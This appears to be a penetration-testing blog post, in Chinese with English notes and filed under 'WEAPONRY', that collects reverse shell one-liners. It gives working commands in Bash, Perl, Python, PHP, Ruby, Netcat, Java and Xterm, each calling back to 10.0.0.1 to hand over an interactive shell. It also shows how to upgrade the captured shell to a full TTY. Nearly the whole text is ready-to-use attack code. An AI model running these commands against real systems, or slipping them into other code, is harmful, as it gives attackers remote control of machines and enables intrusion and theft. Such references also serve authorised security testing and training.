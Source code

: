 ```yaml
---
title: Reverse Shell
date: 2020-11-23 23:08:12
category: WEAPONRY
---
```


# 反弹 shell

> 升级成半交互式 tty
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```
> 升级成完全交互式 tty，能用方向键 + tab，就是退出比较麻烦。**（在 KALI2020.3 上不成功，原因未知，可能跟 zsh 有关？）**
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> Ctrl + Z
> stty raw -echo
> fg
> reset
> ```

### Bash
Tested on Ubuntu 10.10
``` bash
/bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

### Perl
``` bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python 2.7 
Tested under Linux / Python 2.7
``` bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
``` bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
``` bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
不一定所有 nc 都能用哦。
``` bash
nc -e /bin/sh 10.0.0.1 1234
nc -e cmd.exe 10.0.0.1 1234
```
Netcat-openbsd 版不支持 -e，这时候用下面的。
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java
没测过。
``` java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
``` bash
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
``` bash
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
``` bash
xhost +targetip
```